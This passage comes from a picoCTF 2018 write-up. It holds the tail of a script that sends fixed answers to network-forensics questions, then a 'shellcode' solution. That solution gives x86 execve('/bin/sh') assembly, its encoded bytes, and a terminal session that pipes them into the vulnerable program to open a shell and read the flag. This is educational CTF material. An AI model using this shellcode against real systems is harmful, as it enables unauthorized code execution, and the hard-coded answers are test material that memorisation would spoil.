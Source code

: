 ```python
  elif problem.startswith("How many unique destination IP addresses were targeted by the source IP address 246.69.53.233?"):
    r.sendline('3')
  elif problem.startswith("How many unique destination IP addresses were targeted by the source IP address 251.165.34.242?"):
    r.sendline('3')
  elif problem.startswith("How many unique destination IP addresses were targeted by the source IP address 215.239.98.18?"):
    r.sendline('1')
  elif problem.startswith("What is the number of unique destination ips a file is sent, on average?"):
    r.sendline('1.40')
  print 'line: ' + r.recvline()
  print 'line: ' + r.recvline()
  print 'line: ' + r.recvline()

r.close()

```

---

## shellcode (Binary Exploitation)

> This [program](https://2018shell.picoctf.com/static/dd374b1b011341e516ddaaca8bcf7323/vuln) executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd on the shell server. [Source](https://2018shell.picoctf.com/static/dd374b1b011341e516ddaaca8bcf7323/vuln.c).

0. assmble
```a
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push eax        # 仍然不太清楚後面這段 push eax
push ebx        # push ebc
mov ecx, esp    # 和 mov ecx, esp 的作用是啥
mov al, 0xb
int 0x80
```

1. payload
```b
Ice1187@pico-2018-shell:~$ python -c "print '\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x53\x89\xE1\xB0\x0B\xCD\x80'" > shellcode
Ice1187@pico-2018-shell:~$ cat shellcode - | /problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd/vuln
Enter a string!
1�Ph//shh/bin��PS��

Thanks! Executing now...
ls
Ice1187.tar.gz	shellcode  shellcode.sample  shellcode.txt  vuln  vuln.c
cat /problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd/flag.txt
picoCTF{XXXXXXXXXXXXXXXXX}
```
